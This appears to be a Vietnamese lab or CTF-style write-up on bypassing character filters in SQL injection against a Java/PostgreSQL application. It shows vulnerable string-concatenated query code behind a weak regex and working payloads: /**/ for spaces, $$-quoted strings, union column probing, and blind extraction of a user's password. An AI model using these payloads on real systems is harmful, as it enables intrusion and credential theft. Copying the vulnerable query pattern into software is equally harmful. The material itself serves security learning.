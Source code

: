 
#### **2. Kỹ thuật bypass ký tự trong SQLi:**

---

##### **Blind SQL Injection:**

1. **Mô tả:**
   - Ứng dụng không cho phép sử dụng khoảng trắng và ký tự `'`.
   - Regex được sử dụng để phát hiện ký tự `'` hoặc chuỗi chứa hai `'`.

2. **Phân tích mã nguồn:**
   ```java
   Pattern p = Pattern.compile("'|(.*'.*'.*)");
   Matcher m = p.matcher(u);
   if (!u2.contains(" ") && !m.matches()) {
       String sql = "SELECT * FROM users WHERE username LIKE '%" + u + "%'";
   }
   ```
   - Biểu thức Regex (`Pattern.compile`) kiểm tra:
     - Chuỗi chứa `'`.
     - Chuỗi được bao quanh bởi hai `'`.

3. **Khai thác:**
   - Regex không kiểm tra toàn diện các payload phức tạp. Ta có thể sử dụng:
     - Một `'` đơn lẻ mà không vi phạm pattern: `a'--`.
     - Thay thế khoảng trắng bằng `/**/` (PostgreSQL hiểu là ký tự trống):
       - Payload: `'/**/and/**/1=1--`.

---

##### **Union-Based SQL Injection:**

1. **Vượt qua giới hạn ký tự `'`:**
   - PostgreSQL cho phép sử dụng **cặp `$`** để thay thế dấu `'` khi biểu diễn chuỗi.
   - Ví dụ:
     - Thay `'string'` bằng `$$string$$`.

2. **Payload mẫu:**
   - `'/**/union/**/select/**/$$1$$,$$2$$,$$3$$--`.
   - **Lưu ý:** Số lượng cột phải khớp với bảng chính (bảng `users` trong trường hợp này).

3. **Xác định số lượng cột:**
   - Khi số cột không khớp, PostgreSQL trả lỗi:
     ```plaintext
     ERROR: each UNION query must have the same number of columns
     ```
   - Thêm dần cột đến khi payload hợp lệ:
     - `'/**/union/**/select/**/$$1$$,$$2$$,$$3$$,$$4$$,$$5$$,$$6$$--`.

---

##### **Comparative Precomputation (Blind SQLi):**

1. **Ý tưởng:**
   - Sử dụng SQLi dạng **blind** để lấy từng ký tự một.
   - Payload sử dụng phép so sánh để dò tìm:
     ```sql
     ' AND id=(SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='itsmaria')--
     ```
   - Thay khoảng trắng và `'` để bypass:
     ```sql
     '/**/AND/**/id=(SELECT/**/ASCII(SUBSTRING(password,1,1))/**/FROM/**/users/**/WHERE/**/username=$$itsmaria$$)--
     ```
